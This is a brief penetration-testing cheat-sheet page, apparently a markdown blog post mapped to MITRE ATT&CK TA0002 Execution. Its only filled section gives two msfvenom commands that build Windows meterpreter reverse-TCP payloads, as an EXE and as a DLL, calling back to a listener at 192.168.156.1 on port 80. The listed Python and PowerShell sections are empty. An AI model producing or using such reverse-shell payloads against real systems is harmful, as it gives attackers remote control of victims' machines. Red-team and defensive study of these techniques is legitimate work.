 ```yaml
---
layout: post
title: TA0002 Execution
category: pen
modified_date: 2022-02-15
permalink: /pen/build-payload
---
```


**Mitre Att&ck Entreprise**: [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)

**Menu**
<!-- vscode-markdown-toc -->
* [Build System Interpreters - MSFvenom](#BuildSystemInterpreters-MSFvenom)
* [EXEC Python](#EXECPython)
	* [](#)
	* [EXEC Powershell](#EXECPowershell)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='BuildSystemInterpreters-MSFvenom'></a>build-interpreter-msfvenom
```sh
#? generate msfvenom payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f exe > /tmp/meter-rtcp-192.168.156.1-80.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f dll > /tmp/meter-rtcp-192.168.156.1-80.dll
```